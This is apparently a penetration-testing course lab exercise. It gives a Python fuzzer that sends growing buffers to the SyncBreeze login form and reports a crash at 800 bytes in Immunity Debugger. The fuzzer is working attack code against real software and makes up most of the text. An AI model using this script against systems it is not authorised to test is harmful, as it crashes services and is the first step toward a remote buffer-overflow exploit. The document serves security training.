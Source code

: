 # 11.1.2 Discovering the Vulnerability
## Practice - Discovering the Vulnerability

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Build the fuzzer and replicate the SyncBreeze crash.
To start we must first build a fuzzer using python. We can use the following code:
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.222.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.222.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.222.10", 80))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print "\nCould not connect!"
    sys.exit()
```
We must now start the syncbreeze service and attach Immunity Debugger to said service. Once this is done we can begin our fuzzer script, watching the Immunity Debugger window for crashes.
We see that the Immunity Debugger notes a crash at 800 bytes.
